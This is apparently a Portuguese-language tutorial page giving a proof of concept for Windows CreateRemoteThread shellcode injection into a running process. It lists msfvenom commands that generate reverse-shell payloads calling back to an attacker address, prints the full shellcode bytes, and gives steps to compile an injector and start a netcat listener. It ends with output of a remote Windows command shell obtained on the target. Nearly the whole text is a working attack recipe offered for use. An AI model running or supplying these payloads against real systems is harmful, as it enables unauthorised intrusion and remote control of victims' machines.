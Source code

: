 ```yaml
---
title: Injeção de Código - Injection Remote Process
category: post
---
```


## Windows CreateRemoteThread Shellcode Injection and Execution in Remote Process

Esse também é um o clássico Shellcode Injection que no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do processo que injetaremos o código é passado como argumento ao executarmos o shellcode.

Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme PoC a seguir:

---


### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";


### Step 2

- Abrir o código fonte que já montei referente a arquitetura que geramos o shellcode acima.

		injectremotePID.cpp

- Depois de copiar os bytes gerados pelo msfvenom no Step 1, devemos colar esses bytes no conteúdo da variável 
_unsigned char shellcode[] = ""_ do código fonte , e depois compilar-lo.

- Ao compilar o software com sucesso teremos os executáveis prontos para uso.

		injectremotePID.exe


### Step 3


- Anotar o PID do processo/módulo em que iremos injetar o shellcode.

		para vermos o PID podemos usar o "ProcessHacker" ou "procexp"


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador que tem o IP que também colocamos como argumento no msfvenom para gerar o shellcode :

		nc -vlp 1234


- Executar o binário que injeta o shellcode passando o PID anotado acima como argumento para o programa injetor :

		injectremotePID.exe 2004


- Feito isso, já devemos ganhar o acesso no alvo.

		listening on [any] 1234 ...
		192.168.10.109: inverse host lookup failed: Host name lookup failure
		connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
		Microsoft Windows [vers�o 6.1.7600]
		Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

		C:\Users\VBOX_7\Desktop>


